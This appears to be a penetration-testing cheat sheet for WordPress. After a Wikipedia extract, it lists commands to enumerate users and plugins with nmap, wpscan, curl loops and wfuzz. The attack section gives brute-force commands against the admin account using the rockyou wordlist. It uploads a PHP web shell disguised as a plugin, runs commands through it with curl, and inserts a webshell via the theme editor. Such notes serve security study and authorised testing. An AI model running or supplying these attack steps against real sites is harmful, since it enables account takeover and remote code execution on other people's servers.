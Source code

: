 # WordPress

## WordPress CMS

**WordPress** (**WP**, **WordPress.org**) is a [free and open-source](https://en.wikipedia.org/wiki/Free\_and\_open-source\_software) [content management system](https://en.wikipedia.org/wiki/Content\_management\_system) (CMS) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in\_\(computing\)) and a [template system](https://en.wikipedia.org/wiki/Web\_template\_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic\_mailing\_list) and [forums](https://en.wikipedia.org/wiki/Internet\_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning\_management\_system) (LMS) and [online stores](https://en.wikipedia.org/wiki/Shopping\_cart\_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-Usage\_of\_content\_management\_systems\_for\_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive\_display\_systems) (PDS).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## WordPress Locations

These are the most commong wordpress locations:

* /wp-admin
* /directory\_name/wp-admin

## Enumerating WordPress

WordPress Key Points:

* Tools > Site Health > Info > Server
* Tools > Site Health > Info > Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```
wpscan --url http://target
wpscan --url http://$target -e p,t,u --detection-mode aggressive > wpscan.log
```

Enumerate users:

```
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```
wpscan --url http://target --enumerate p
```

Scan for vulnerable plugins with an API token:

```bash
wpscan -e vp --plugins-detection aggressive --api-token API_KEY --url http://172.31.1.8
```

Enumerate credentails with random-user-agent header:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Enumerate and store the output:

```
wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log
```

Helps identify issues on a Wordpress page:

```
wpscan --url http://10.10.140.124/wordpress/ -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive 
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following (author=1,author=2, etc):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

### Author ID Bruteforce

```
wpscan --url http://10.10.185.115/blog/ -t 40 -e at,ap,u1-3000,m1-2000 --passwords /usr/share/wordlists/rockyou.txt
```

Simplified:

```
wpscan --url http://10.10.189.203 -t 40 -e ap,u1-1000 --passwords /usr/share/wordlists/rockyou.txt
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Open -> Install Now ->

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress > Appearance > Theme Editor > Theme Header then insert a webshell.

![Appearance -> Theme Editor -> Twenty Twenty -> Theme Files -> 404.php](../../../.gitbook/assets/wordpress-twenty-twenty-404-php-webshell.png)
